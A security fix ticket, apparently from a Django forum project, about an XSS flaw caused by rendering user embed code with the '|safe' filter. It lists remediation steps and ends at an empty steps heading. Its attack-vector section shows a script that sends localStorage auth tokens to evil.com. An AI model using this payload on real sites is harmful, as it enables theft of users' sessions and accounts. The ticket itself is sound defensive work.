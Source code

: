 # Fix XSS Vulnerability in Forum Embed Code

**Priority**: 🔴 P1 - CRITICAL
**Category**: Security
**Effort**: 3-4 hours
**Deadline**: Immediate

## Problem

User-supplied embed code is rendered with Django's `|safe` filter, allowing arbitrary JavaScript execution and bypassing all XSS protections.

## Location

`templates/forum_integration/blocks/embed_block.html:14`

## Current Code

```django
{{ value.embed_code|safe }}  <!-- CRITICAL XSS -->
```

## Attack Vector

```html
<!-- Attacker submits as embed code: -->
<script>
  fetch('https://evil.com/steal?token=' + localStorage.getItem('authToken'))
</script>
```

## Impact

- Token theft (compounded by JWT in localStorage)
- Session hijacking
- Malware distribution via forum posts
- Phishing attacks against users
- Full account compromise

## Solution

1. Remove `|safe` filter from template
2. Install and configure `bleach` library for HTML sanitization
3. Whitelist only safe HTML tags (iframe, video, img)
4. Add Content-Security-Policy headers
5. Audit all other uses of `|safe` in templates

## Implementation Steps
